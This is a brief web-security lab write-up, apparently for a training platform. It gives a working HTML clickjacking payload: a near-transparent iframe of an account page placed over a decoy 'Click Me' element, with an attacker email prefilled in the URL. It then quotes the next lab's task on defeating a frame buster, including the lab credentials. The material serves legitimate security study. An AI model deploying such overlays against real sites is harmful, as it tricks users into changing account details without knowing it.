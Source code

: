 ![picture 2](/assets/images/4977ca1854862e3d1cced270102755a2cc31a9f13b85b645bc051130a7314446.png)  

This is the code that worked for me:

```html
<style>
    iframe {
        position:relative;
        width:780px;
        height: 600px;
        opacity: 0.00001%;
        z-index: 2;
    }
    div {
        position:absolute;
        top:454px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0aaa008d03d1128b85934f6f00950027.web-security-academy.net/my-account?email=test@attacker.de"></iframe>
```

# Clickjacking with a frame buster script
> This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?
> 
> To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.
> 
> You can log in to your own account using the following credentials: wiener:peter
